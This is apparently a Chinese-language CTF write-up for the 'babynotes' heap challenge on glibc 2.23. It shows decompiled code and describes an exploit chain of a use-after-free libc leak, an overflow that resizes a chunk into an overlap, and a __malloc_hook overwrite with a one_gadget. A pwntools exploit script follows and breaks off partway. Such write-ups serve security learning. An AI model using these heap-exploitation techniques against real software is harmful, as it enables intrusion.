 ## babynotes
glibc2.23，存在uaf，存在off by one，存在溢出，解法有好几种，先放一种，有时间再研究其他的  
regist  
```C++  
int regist()
{
  char s; // [rsp+0h] [rbp-50h]
  __int64 v2; // [rsp+18h] [rbp-38h]
  __int64 v3; // [rsp+28h] [rbp-28h]

  memset(&s, 0, 0x50uLL);
  qword_6020D0 = (char *)malloc(0x100uLL);
  dest = (char *)malloc(0x18uLL);
  puts("Input your name: ");
  if ( (unsigned int)read(0, &s, 0x18uLL) == -1 )
    exit(0);
  puts("Input your motto: ");
  if ( (unsigned int)read(0, &v3, 0x20uLL) == -1 )
    exit(0);
  puts("Input your age: ");
  __isoc99_scanf("%lld", &v2);
  strcpy(dest, &s);
  strncpy(qword_6020D0, (const char *)&v3, 0x20uLL);
  qword_6020C8 = v2;
  return puts("Done!");
}
```
regist函数中可以看到name和age使用的是同一个栈，那么可以让name和age相连，然后通过strcpy复制到dest中，造成溢出，修改下一个chunk的size  
先利用uaf直接leak libc，接着进入reset函数，再次进入regist函数修改name和age，通过溢出，修改index为2的chunk size为0xe1，即0x70的2倍，并将index为2的chunk free掉，形成chunk overlap  
通过申请把原chunk2大小的数据切割出来，unsorted bin里面剩下的chunk就是chunk3对应的块，此时chunk3没有释放，再次申请同样大小的chunk，就能将chunk3的指针放在index=1的位置上，从而使1=3  
接下来就是老生常谈的，通过uaf，改fd为malloc_hook，打malloc_hook为one_gadget  
### exp  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './babynotes' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF("libc-2.23.so")
def add(index,size):
    p.sendlineafter('>>','1')
    p.sendlineafter('Input index:',str(index))
    p.sendlineafter('Input note size:',str(size))
def show(index):
    p.sendlineafter('>>','2')
    p.sendlineafter('Input index:',str(index))
def free(index):
    p.sendlineafter('>>','3')
    p.sendlineafter('Input index:',str(index))
def edit(index,content):
    p.recvuntil(">> ")
    p.sendline("4")
```